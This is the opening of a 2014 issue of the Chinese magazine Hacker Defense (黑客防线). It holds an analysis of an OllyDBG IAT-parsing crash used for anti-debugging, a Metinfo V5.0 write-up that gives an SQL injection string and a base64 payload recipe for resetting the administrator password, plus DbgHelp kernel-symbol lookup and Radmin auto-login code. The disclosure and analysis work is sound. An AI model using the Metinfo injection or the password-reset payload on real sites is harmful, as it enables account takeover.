# 黑客防线2014年全

---

# 黑客防线

总第157期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn


- OllyDBG 调试器 IAT 读取漏洞
- 借助 DbgHelp 定位未导出符号
- Python 打造批量服务器扫描破解工具
- X64 程序内联汇编两法
- 编写 Linux 键盘记录器

## 《黑客防线》本期文章目录

总第157期 2014年

#### 漏洞攻防

- OllyDBG 调试器 IAT 读取漏洞（木羊）……3
- Metinfo V5.0 管理员密码任意修改漏洞（ywledoc）……6

#### 编程解析

- 借助 DbgHelp 定位未导出符号（李旭昇）……8
- 利用 SendMessage API 函数实现 Radmin 远控自动登录（赵显阳）……11
- X64 程序内联汇编两法（李旭昇）……16
- Python 打造批量服务器扫描破解工具（马智超 杨宝山）……19
- Linux 入侵日志清理（lyrics）……25
- 编写 Linux 键盘记录器（unity）……29
- Windows 的消息钩子机制（王晓松）……32

#### 密界寻踪

- 一个 Crackme 的浮点算法分析（kevines）……38

- 2014年第2期杂志特约选题征稿……46
- 2014年征稿启事……49

## OllyDBG 调试器 IAT 读取漏洞

文/图 木羊

OllyDBG 调试器，通常简称 OD，挖掘 Ring3 漏洞必不可少的利器之一，但本文讨论的并不是如何使用 OD 去挖掘漏洞，而是挖掘 OD 本身存在的漏洞，受此漏洞影响的版本为 1.1 版。

挖掘 OD 的漏洞应该使用什么工具呢？OD，这正是有趣之处，但同时也可能造成理解上的混乱，很容易就会读着读着搞不清楚现在描述的是调试的 OD 还是被调试的 OD，所以为了区别，这里将作为调试对象的 OD 称为 ODB。

首先描述触发该漏洞的现象。将利用该漏洞的 POC 载入 ODB，无论是设置第一次暂停断在系统断点还是主模块入口点，ODB 都将直接崩溃，如图 1 所示。



图1

该 POC 为经过精心设计的 PE 格式可执行程序。更为奇妙的是，这个 POC 可以直接运行，不会影响任何功能的使用，因此 Safengine 和 VMProtect 等壳的部分版本曾利用这一漏洞来 anti-debug。

那么，怎么分析漏洞的成因呢？将 OD 设为系统当前的实时调试器，触发 ODB 漏洞后，选择“调试程序”，OD 会载入 ODB 的内存空间。看一下载入时的寄存器状况，很快就能发现问题出在哪了，如图 2 所示。



图2

请注意 EIP 寄存器。EIP 寄存器是指令寄存器，用来标示 CPU 下一条读取的指令所在的内存地址，而这里是 0xD0A0D0A，这是个非法的内存地址，因此 CPU 不知从何读取指令，因此触发了异常。

为了准确重现这个错误，可以用 OD 载入 ODB，F9 运行，再让 ODB 载入 POC，同样是 F9 运行，这时 OD 就会收到访问非法内存的异常，如图 3 所示。



图3

崩溃的原因找到了，那导致崩溃的又是什么呢？先好好看看这个 0x0D0A0D0A，看起来非常眼熟。对了！这不是回车换行符的 ASCII 码吗？在 POC 中通过 hex 搜索，发现如下结果，如图 4 所示。



图4

茫茫多的回车换行符（总数超过 0x100，原因后述）。如果这是一个字符串，那一定会在后面跟大量的空行。可是这个字符串又会用在哪里呢？往前看，看到回车换行符前面有个 ADVAPI32。我们知道，Windows 自带了一个系统 DLL 名字就叫 ADVAPI32，所以第一反应是猜 IAT（PE 文件的函数导入表）。用 LordPE 的 PE 编辑器一看，果然如此，如图 5 所示。



图5

这是 POC 的 IAT。可以看出，字符串“ADVAPI32”后面跟了大量的回车换行符，正好印证了上面的推断。但这些回车换行符怎么跑到 EIP 上去的呢？我们知道，OD 是会打印载入程序的 IAT 的，而 OD 的调试信息又都是通过调用 sprintf 打印的，sprintf 函数存在格式化字符串溢出漏洞，调用者稍微不慎就会掉进坑里，OD 的作者正是掉进了这个坑。OD 的 sprintf 函数在 0x004A6C2C，这个函数被大量调用，如图 6 所示。



图6

sprintf 函数的溢出漏洞属于第三方漏洞，并不是 OD 作者的问题，原理也讨论得比较充分，故不在本文赘述。现在要考虑的是到底是哪个调用导致崩溃。我没想到很好的办法，所以现在需要一点耐心，先通过 OD 给 ODB 的 sprintf 函数下个 int3 断点，然后一遍一遍地 F9，直到发生崩溃。经过一段时间的观察，会注意到崩溃时的函数调用总是来自 0x0045D535：

```asm
0045D51D  |.  B9 00010000      ||mov   ecx, 100
0045D522  |.  2BC8             ||sub   ecx, eax
0045D524  |.  8D85 78FCFFFF    ||lea   eax, dword ptr [ebp-388]
0045D52A  |.  83E9 02          ||sub   ecx, 2
0045D52D  |.  51               ||push  ecx
0045D52E  |.  50               ||push  eax
0045D52F  |.  68 92C04B00      ||push  004BC092    ; ASCII "%s.%.*s"
0045D534  |.  52               ||push  edx
0045D535  |.  E8 F2960400      ||call  004A6C2C
```

这里有个关键操作，从 0x0045D51D 的“mov ecx,100”开始，接着是 0x0045D522 的“sub ecx,eax”，最后是“sub ecx,2”，写成伪代码就是 ecx=0x100-eax-2。这里 ecx 保存的是 IAT 函数名的长度，eax 则是 IAT 的 DLL 名长度。调用 sprintf 函数后输出的是 OD 里非常常见的函数调用标记，形式类似于 kernel32.GetModuleHandleA（OD 中使用 Ctrl+N 调出来的栏目即为此类）。这段字符串的总长度不超过 0x100，但 OD 在这里犯了错误，只处理了函数名，如果 DLL 名长度超过 0x100，就会触发溢出漏洞。

最后总结一下，如果一个 PE 文件的 IAT 表中，存在一个名字长于 0x100 的 DLL，就会导致 OD 在读取并打印 IAT 的信息时触发 sprintf 函数的格式化溢出漏洞，从而崩溃。我们不妨试试利用这一漏洞设计 anti-OD 的代码。

## Metinfo V5.0 管理员密码任意修改漏洞

文/ ywledoc

去年版本就有这个漏洞，发现于年初，metinfo 也挺硬气，坚持到今年 6 月份才修补。直接修改管理员密码，这么大的漏洞，metinfo 的心理素质真好。废话不多说，下面进入正题。

```php
if($p){
    $array = explode('.',base64_decode($p));
    $sql="SELECT * FROM $met_admin_table WHERE admin_id=".$array[0]."";
    $sqlarray = $db->get_one($sql);
    $passwords=$sqlarray[admin_pass];
    $checkCode = md5($array[0].'+'.$passwords);
    if($array[1]!=$checkCode){
        okinfo('basic.php?lang='.$lang,$lang_getTip8);
        die();
    }
    if($action == "MembersAction"){
        if($password=='' || $passworda!=$password)okinfo('javascript:history.back();',$lang_NewPassJS2);
        $password = md5($password);
        $query="update $met_admin_table set
            admin_pass='$password'
            where admin_id='$array[0]'";
        $db->query($query);
        okinfo('basic.php?lang='.$lang,$lang_js21);
    }
    include templatemember('getpassword');
    footermember();
}
```

很明显，传入的参数 $p 在 base64_decode 后，就直接带入 SQL 语句查询了，一个 SQL 注入漏洞产生。通过这个可以得到管理员的 MD5 密码，注入语句为：“admin’ and (select ord(mid(admin_pass,str(第几位md5),1)) from met_admin_table where id=1)=‘预期的md5字符’ and ’1’=’1”，当然，这个注入语句要记得先 base64_encode。  
这个注入点有些另类，当注入语句成功时，也就是你猜了其中一位 MD5 字符时，会返回错误页面，原因是下面这段代码：

```php
$array = explode('.',base64_decode($p));
$sql="SELECT * FROM $met_admin_table WHERE admin_id=".$array[0]."";
$sqlarray = $db->get_one($sql);
$passwords=$sqlarray[admin_pass];
$checkCode = md5($array[0].'+'.$passwords);
```

```php
if($array[1]!=$checkCode){
    okinfo('basic.php?lang='.$lang, $lang_getTip8);
    die();
}
```

当查询成功时，就会返回 admin_pass，而 admin_pass 不知道，所以无法成功构造正确的 checkCode，在 if($array[1]!=$checkCode) 这里就一定会进入 die()，进而返回错误页面。

下面看看主角，直接修改管理员密码。

```php
if($action == "MembersAction"){
    if($password=='' || $passworda!=$password)
        okinfo('javascript:history.back();', $lang_NewPassJS2);
    $password = md5($password);
    $query="update $met_admin_table set
        admin_pass='$password'
        where admin_id='$array[0]'";
    $db->query($query);
    okinfo('basic.php?lang='.$lang, $lang_js21);
}
```

上面说了如果查询成功，页面就会返回失败；查询失败，则会直接进入改密码流程。那就构造一条失败的 SQL 语句吧，比如：admin’ and ’1’=’2”，再传入相应的 $password 与 $passworda 就可以直接改密码了。同样别忘了 base64_encode 以及要求的格式：

```text
$array[0]=注入语句
$array[1]=$array[0]+' '+'2'
$p=base64_encode($array[0]+'.0'+$array[1])
```

当然，上面所说的一切，建立于知道管理员用户名的前提下。如何获得用户名，就要各显神通了。因为注入点有些另类，用了许多工具不能正确注入，于是我用 Python 写了个脚本，查询密码和修改密码都有。

（完）

## 借助 DbgHelp 定位未导出符号

文/图 李旭昇

众所周知，由于 Windows 系统的封闭性，其中存在大量未导出符号。我们在实际编程中往往需要用到这些符号，所以就有了定位未导出符号的问题。硬编码是最简单的解决办法，但由于 Windows 存在大量不同版本，该方法通用性较差。作为改进，特征搜索应运而生，即在调用特定符号的函数内根据特征进行匹配。但是特征匹配也难以做到通用，而且在 Ring0 下搜索还有蓝屏的可能。本文介绍一种曲线救国的方法，即借助 Windows 提供的 DbgHelp 来定位未导出符号。本文以获得 PspCreateProcessNotifyRoutine 符号的地址为例，其他符号方法类似。

众所周知，调试符号在调试中不可或缺。为了简化调试器的开发，Windows 提供 DbgHelp.dll 来协助使用 PDB 文件中的调试符号。常见的调试器，如 WinDbg、IDA 都通过 DbgHelp 使用调试符号。DbgHelp 的用法并不复杂，我们结合代码进行分析。

```cpp
typedef NTSTATUS (WINAPI *_NtQuerySystemInformation)(ULONG, PVOID,
    ULONG, PULONG);
_NtQuerySystemInformation NtQuerySystemInformation =
    (_NtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"ntdll"),
    "NtQuerySystemInformation");

DWORD64 GetNTBase()
{
    ULONG BytesNeeded = 0;
    PCHAR ModuleInfoBuf = NULL;
    NtQuerySystemInformation(SystemModuleInformation, ModuleInfoBuf,
        0, &BytesNeeded);
    ModuleInfoBuf = new char[BytesNeeded];
    memset(ModuleInfoBuf, 0, BytesNeeded);
    NtQuerySystemInformation(SystemModuleInformation, ModuleInfoBuf,
        BytesNeeded, &BytesNeeded);
    PMODULES pModuleInfo = (PMODULES)ModuleInfoBuf;
    DWORD64 NtBase =
        (DWORD64)pModuleInfo->smi.Modules[0].ImageBaseAddress;

    delete []ModuleInfoBuf;
    return NtBase;
}

BOOL CALLBACK EnumSymProc(
    PSYMBOL_INFO pSymInfo,
    ULONG SymbolSize,
    PVOID UserContext)
{
    UNREFERENCED_PARAMETER(UserContext);

    DWORD64 BaseOfDll = *(PDWORD64)UserContext;
    cout << "BaseOfDll = " << hex << BaseOfDll << endl;
    DWORD64 Offset = pSymInfo->Address - BaseOfDll;
    cout << "Addr of " << pSymInfo->Name << " = " << hex << pSymInfo->Address
         << endl
         << "Offset = " << Offset << endl;
    DWORD64 NTBase = GetNTBase();
    cout << endl << "Kernel base = " << hex << NTBase << endl
         << pSymInfo->Name << " = " << NTBase + Offset << endl;
    return TRUE;
}

void main()
{
    HANDLE hProcess = GetCurrentProcess();
    DWORD64 BaseOfDll;
    char *Mask = "PspCreateProcessNotifyRoutine";
    BOOL status;

    status = SymInitialize(hProcess, NULL, FALSE);
    if (status == FALSE)
    {
        return;
    }
    SymSetSearchPath(hProcess, "D:\\symbols");

    BaseOfDll = SymLoadModuleEx(hProcess,
        NULL,
        "ntoskrnl.exe",
        NULL,
        0,
        0,
        NULL,
        0);

    if (BaseOfDll == 0)
    {
        cout << "SymLoadModuleEx Failed: " << GetLastError() << endl;
        SymCleanup(hProcess);
        return;
    }

    if (SymEnumSymbols(hProcess,    // Process handle from ...
```

```cpp
SymInitialize(
        BaseOfDll,   // Base address of module.
        Mask,        // Name of symbols to match.
        EnumSymProc, // Symbol handler procedure.
        &BaseOfDll)) // User context.
{
    // SymEnumSymbols succeeded
    cout << "Done" << endl;
}
else
{
    // SymEnumSymbols failed
    cout << "SymEnumSymbols failed: " << GetLastError() << endl;
}

SymCleanup(hProcess);
}
```

以上代码首先通过 `SymInitialize` 初始化调试处理器。这里传入的进程句柄为当前进程，因为我们感兴趣的符号位于内核空间，被所有进程共享。如果想要在调试程序时获得符号，则应传入被调试程序的句柄。在使用 DbgHelp 时，如果已经有 PDB 符号文件，可以通过 `SymSetSearchPath` 指定；否则 DbgHelp 会自动从 `_NT_SYMBOL_PATH` 环境变量指定的调试服务器下载符号文件，无需额外干预。接着我们调用 `SymLoadModuleEx` 加载内核符号表，其中只有第三个参数文件名是我们关心的。接下来我们调用 `SymEnumSymbols` 遍历所有符号，该函数原型如下：

```cpp
BOOL WINAPI SymEnumSymbols(
  _In_     HANDLE hProcess,
  _In_     ULONG64 BaseOfDll,
  _In_opt_ PCSTR Mask,
  _In_     PSYM_ENUMERATESYMBOLS_CALLBACK EnumSymbolsCallback,
  _In_opt_ const PVOID UserContext
);
```

其中第一个参数为进程句柄，传入当前进程句柄即可。第二个参数 `BaseOfDll` 是 `SymLoadModuleEx` 的返回值，也就是模块基址。第三个参数需要一个字符串 `Mask`，通过它可以过滤需要遍历的符号。这里将其设为“PspCreateProcessNotifyRoutine”，即进行精确匹配，也可以加入通配符“?”或“*”等。第四个参数是回调句柄，`EnumSymbolsCallback` 函数稍后分析。第五个参数为用户上下文，我们传入 `BaseOfDll`，以便在 `EnumSymbolsCallback` 函数中计算出 `PspCreateProcessNotifyRoutine` 的真实地址。

`EnumSymbolsCallback` 函数的原型如下：

```c
typedef BOOL (CALLBACK *PSYM_ENUMERATESYMBOLS_CALLBACKW)(
  _In_      PSYMBOL_INFOW pSymInfo,
  _In_      ULONG SymbolSize,
  _In_opt_  PVOID UserContext
);
```

其第一个参数中包含符号的各种信息，如名称、地址、大小等。

```c
typedef struct _SYMBOL_INFO {
    ULONG   SizeOfStruct;
    ULONG   TypeIndex;
    ULONG64 Reserved[2];
    ULONG   Index;
    ULONG   Size;
    ULONG64 ModBase;
    ULONG   Flags;
    ULONG64 Value;
    ULONG64 Address;
    ULONG   Register;
    ULONG   Scope;
    ULONG   Tag;
    ULONG   NameLen;
    ULONG   MaxNameLen;
    TCHAR   Name[1];
} SYMBOL_INFO, *PSYMBOL_INFO;
```

注意，上述地址并不是符号在内核中的真正地址！我们通过 `SymLoadModuleEx` 加载的内核及其符号表的地址一般不同于真正的 NT 内核地址，所以我们需要根据得到的符号地址和 `BaseOfDll` 计算出符号的偏移，再加上 NT 内核的真正地址，才能得到符号的真正地址。获得内核模块基址通过 `NtQuerySystemInformation` 实现，这里不再赘述。测试结果如图 1，我们成功地得到了 `PspCreateProcessNotifyRoutine` 的地址。



图 1 获得未导出符号 PspCreateProcessNotifyRoutine 的地址

## 利用 SendMessage API 函数实现 Radmin 远控自动登录

图/文 赵显阳

Radmin 是俄罗斯出品的一款远控软件，登录时需要手动输入用户名和密码。本文通过一些编程方法来实现自动登录，即运行本程序后不用再繁琐输入，即可轻松登录、轻松管理。

首先介绍一下 Radmin 远控软件：Radmin（Remote Administrator）是一款屡获殊荣的安全远程控制软件，可以从多个地点访问同一台电脑，并使用高级文件传输、远程关机、Telnet、操作系统集成的 NT 安全性系统支持，以及其他功能。Radmin 在速度、可靠性及安全性方面的表现超过了所有其他远程控制软件！

本文要使用的 Windows API 包括 FindWindow、FindWindowEx、SendMessage。下面说说每个 API 的功能和参数。

```c
HWND FindWindow(
    LPCTSTR lpClassName,    // pointer to class name
    LPCTSTR lpWindowName    // pointer to window name
);
```

FindWindow 函数通过类名称和窗口标题检索顶层窗口的句柄，函数不搜索子窗口句柄。这个函数有 2 个参数，`lpClassName` 是指向类名称的指针，`lpWindowName` 是指向窗口标题的指针。该函数返回找到的窗口句柄，如果找不到则返回 NULL。

```c
HWND FindWindowEx(
    HWND hwndParent,      // handle to parent window
    HWND hwndChildAfter,  // handle to a child window
    LPCTSTR lpszClass,    // pointer to class name
    LPCTSTR lpszWindow    // pointer to window name
);
```

FindWindowEx 函数通过控件的类名称和控件标题检索控件句柄，该函数检索子窗口的句柄（控件句柄，如 Button），从第一个子控件开始。函数有 4 个参数，`hwndParent` 参数传入父窗口的句柄，`hwndChildAfter` 是子窗口的句柄；要查找第一个子窗口的句柄，可以设置该窗口的句柄为 0。`lpszClass` 是指向类名称字符串的指针，`lpszWindow` 是指向控件标题字符串的指针。该函数返回指定窗口的子窗口句柄，如果找不到则返回 NULL。

```c
LRESULT SendMessage(
    HWND hWnd,      // handle of destination window
    UINT Msg,       // message to send
    WPARAM wParam,  // first message parameter
    LPARAM lParam   // second message parameter
);
```

SendMessage 函数向一个窗口或子窗口发送一个消息，直到应用程序处理了这个消息，该函数才执行完毕。这个函数有 4 个参数，`hWnd` 是目标窗口的句柄，`Msg` 是要发送给目标窗口的消息，`wParam` 是消息的第一个参数，`lParam` 是消息的第二个参数。该函数的返回值依赖于消息的类型。

下面来具体实现 Radmin 自动登录，首先要获取 Radmin 的登录窗口句柄，使用 FindWindow 函数实现，如图 1 所示。



图 1

hWinMain:= FindWindow(nil,'Radmin 安全性: www.isafe.cc');

第二步：获取“用户名”编辑框的句柄。

hUser:= FindWindowEx(hWinMain,0,'EDIT',nil)

查找 hWinMain 窗口的子窗口句柄，EDIT 是编辑框的类名，0 表示查找用户名编辑框的句柄。

第三步：获取“密码”编辑框的句柄。

hPass:= FindWindowEx(hWinMain,hUser,'EDIT',nil)

查找 hWinMain 窗口的子窗口句柄，EDIT 是编辑框的类名，hUser 表示查找这个编辑框之后的编辑框句柄。

第四步：取得“确定”按钮的句柄。

hOk:= FindWindowEx(hWinMain,0,'BUTTON',nil);

通过以上几步就得到了登录的所有必要信息。下面是填入信息，通过 SendMessage 函数向窗口发送消息 WM_SETTEXT。

```pascal
SendMessage(hUser,WM_SETTEXT,0,LPARAM(PChar('admin')));        // 设置用户名为 admin
SendMessage(hPass,WM_SETTEXT,0,LPARAM(PChar('www.isafe.cc'))); // 设置密码
```

对于单击“确定”按钮，是通过 SendMessage 函数向窗口发送 BM_CLICK 消息来进行的。WPARAM 为 0，LPARAM 为 0。

```pascal
SendMessage(hOk,BM_CLICK,0,0);
```

下面来设计整体思路。由于获取窗口句柄的时间不确定，所以获取窗口句柄最好在循环中实现；但是一个主程序中若有循环在执行，就不响应其他用户操作了，所以这里使用 Win API 中的线程函数。在 Delphi 中，TThread 类对线程进行了封装，可以使用 TThread 类来创建一个线程类 TGetHandleThread。

```pascal
TGetHandleThread=class(TThread)
    private
        FMainHandle:Cardinal;
        FUserHandle:LongWord;
        FPassWordHandle:Cardinal;
        FokHandle:Cardinal;
        procedure DataMemo;
    protected
        procedure Execute; override;
    public
        constructor Create; reintroduce;
        destructor Destroy; override;
end;
```

这里最重要的是 Execute 过程，该过程是线程执行的主体，所有代码在这执行。为了和 Delphi 主窗口 VCL 通讯，需要同步函数 `Synchronize()`。

```pascal
procedure TGetHandleThread.Execute;
begin
    while not Terminated do
    begin
        FMainHandle:= FindWindow('#32770','Radmin 安全性: www.isafe.cc');
        FUserHandle:= FindWindowEx(FMainHandle,0,PChar('EDIT'),nil);
        FPassWordHandle:= FindWindowEx(FMainHandle,FUserHandle,PChar('EDIT'),nil);
        FokHandle:= FindWindowEx(FMainHandle,0,PChar('BUTTON'),nil);
        FokHandle:= FindWindowEx(FMainHandle,FokHandle,PChar('BUTTON'),nil);
        Synchronize(DataMemo);
    end;
end;
```

DataMemo 过程的代码用于将获取的 Radmin 登录窗口句柄赋值给主窗口的文本控件。

```pascal
procedure TGetHandleThread.DataMemo;
begin
    frmMain.edtMainHandle.Text:= IntToStr(FMainHandle);
    frmMain.edtUserHandle.Text:= IntToStr(FUserHandle);
    frmMain.edtPasswordHandle.Text:= IntToStr(FPassWordHandle);
    frmMain.edtOkHandle.Text:= IntToStr(FokHandle);
end;
```

主要的获取窗口句柄函数已经实现了，下面是通过句柄设置控件的值，使用 SendMessage 函数设置用户姓名。

```pascal
var
    hUser:Cardinal;
begin
    hUser:= StrToIntDef(edtUserHandle.Text,1);
    SendMessage(hUser,WM_SETTEXT,0,LPARAM(PChar('admin')));
end;
```

设置密码则通过 SendMessage 函数。

```pascal
var
    hPass:Cardinal;
begin
    hPass:= StrToIntDef(edtPasswordHandle.Text,1);
    SendMessage(hPass,WM_SETTEXT,0,LPARAM(PChar('www.isafe.cc')));
end;
```

模拟单击“确定”按钮，通过 SendMessage 函数实现。

```pascal
var
    hOk:Cardinal;
begin
    hOk:= StrToIntDef(edtOkHandle.Text,1);
    SendMessage(hOk,BM_CLICK,0,0);
end;
```

最终，本程序的主界面如图 2 所示。



图 2

程序运行时首先要启动工作线程，要声明一个 `TGetHandleThread` 类类型的实例 `GetHandleThread1`，然后调用类的 `Create` 方法来创建一个线程对象。

```pascal
begin
  ThreadNum:= 0;
  GetHandleThread1:= TGetHandleThread.Create;
  ThreadNum:= ThreadNum + 1;
  GetHandleThread1.Resume;
  GetHandleThread1.OnTerminate:= ThreadExit;
  while True do
  begin
    if ThreadNum= 0 then Break;
    Application.ProcessMessages;
    Panel1.Caption:= 'Thread Running...';
  end;

  Panel1.Caption:= 'Thread Done';
end;
```

运行后如图 3 所示。

